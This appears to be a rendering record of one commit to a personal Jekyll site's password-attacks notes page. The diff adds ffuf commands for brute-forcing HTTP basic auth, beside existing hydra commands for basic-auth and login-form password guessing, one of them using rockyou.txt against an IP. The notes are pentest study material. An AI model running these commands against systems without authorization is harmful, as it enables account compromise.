

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/PasswordAttacks.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
added auth basic ffuf notes

```diff
--- a/markdown/PasswordAttacks.md
+++ b/markdown/PasswordAttacks.md
@@ -13,6 +13,9 @@
     - For basic auth:
       - `sudo hydra -l {username} -P {pass_list} -f {IP} http-get "{EXACT_PATH}"`
         - If the path doesn't match exactly (for example, missing a `/`), you can get some confusing results
+      - This is slow, though, so I'd recommend using FFUF
+        - FFUF [released a quick script](https://github.com/ffuf/ffuf-scripts/tree/master) to easily make b64 users/passwords
+        - Then just `ffuf -u http://{endpoint} -w {list} -H "Authorization: Basic FUZZ" -fc 403`
 	- For normal web apps: provide a username, password list, IP, endpoint to post to, ^PASS^ for the password used, and a string in the HTTP of the failed result
 	- `sudo hydra -l {username} -P {password_list} {IP} http-post-form "/{endpoint}:{param1}=^PASS^:Login failed. Invalid"`
 		- So, for example: `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:user=admin&password=^PASS^:Login failed. Invalid"`
```
